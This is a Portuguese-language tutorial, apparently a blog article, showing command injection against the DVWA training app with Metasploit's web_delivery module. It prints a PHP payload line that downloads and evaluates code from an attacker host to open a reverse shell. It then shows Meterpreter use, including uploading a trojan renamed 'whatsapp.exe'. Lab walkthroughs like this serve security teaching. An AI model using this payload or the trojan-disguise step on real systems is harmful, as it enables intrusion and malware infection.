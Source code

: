 ```yaml
---
layout: default
title: Command-Injection com Metasploit
permalink: /artigos/08.md/
---
```

  
  
<p align="center">
 <a href="https://carineconstantino.github.io/cybersecurity/">Página Inicial</a>
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/">Próximo</a>  
 || 
 <a href="https://carineconstantino.github.io/cybersecurity/artigos/07.md">Anterior</a>   
</p>

## Command-Injection com Metasploit

O ataque **Command-Injection** permite a execução de comandos remotamente no sistema operacional a partir de uma aplicação que não faz a validação dos dados de entrada. Quando o ataque é bem sucedido, o comando é executado com o mesmo nível de privilégios da aplicação, ou seja, se a aplicação é executada no sistema operacional com privilégios administrativos, o comando também será executado com esse nível de acesso. 

## Executando o Command-Injection

No exemplo, eu continuo utilizando a aplicação vulnerável [DVWA](http://www.dvwa.co.uk) e a máquina Kali virtualizada com VirtualBox. No metasploit, o módulo _exploit/multi/script/web_delivery_ oferece o exploit do [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md). Em um ataque de **command-injection**, o [shell-reverso](https://carineconstantino.github.io/cybersecurity/artigos/03.md) é utilizado para abrir o backdoor com o sistema atacado.

A aplicação [DVWA](http://www.dvwa.co.uk) é construida em PHP e essa será a opção de escolha do _targets_ 

![targets](https://carineconstantino.github.io/cybersecurity/artigos/imagens/targets.png)

O módulo do **shell-reverso** é para PHP e a porta local de conexão é padrão 4444. Quando o **command-injection** for executado, a máquina Kali receberá conexões nessa porta e poderá enviar um outro payload, por exemplo, um arquivo de vírus para infectar a máquina. 

![web_delivery_module](https://carineconstantino.github.io/cybersecurity/artigos/imagens/web_delivery_module.png)

Ao executar o módulo, o payload do command-injection é criado, conforme a linha abaixo: 

```php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.0.26:8080/0piSzsUEIk5'));"```

Na aplicação DVWA, o payload é adicionado junto com uma entrada legítima disponível no site. 

![dvwa_command_injection](https://carineconstantino.github.io/cybersecurity/artigos/imagens/dvwa_command_injection.png)

A máquina Kali recebe a conexão pois a aplicação não validou a entrada do comando e passou a execução para o servidor, permitindo abrir o backdoor na porta 4444

![conexao_reversa](https://carineconstantino.github.io/cybersecurity/artigos/imagens/conexao_reversa.png)

O comando _sessions_ confirma a sessão aberta do **shell-reverso**

![sessions](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions.png)

## Meterpreter

A manipulação da máquina remota é feita com o excelente [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) através do comando ```sessions -i 1```

![sessions_1](https://carineconstantino.github.io/cybersecurity/artigos/imagens/sessions_1.png)

Dentro do [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) diversos comandos estão disponíveis para exploração da máquina da vítima. 
No exemplo abaixo, são executados os comandos ```getwd```, ```ls -l```, ```upload /root/trojan.exe whatsapp.exe```

![meterpreter_attack](https://carineconstantino.github.io/cybersecurity/artigos/imagens/meterpreter_attack.png)

O comando ```upload``` permite enviar arquivos para a máquina atacada e a partir desse ponto, o céu é o limite para o atacante. 

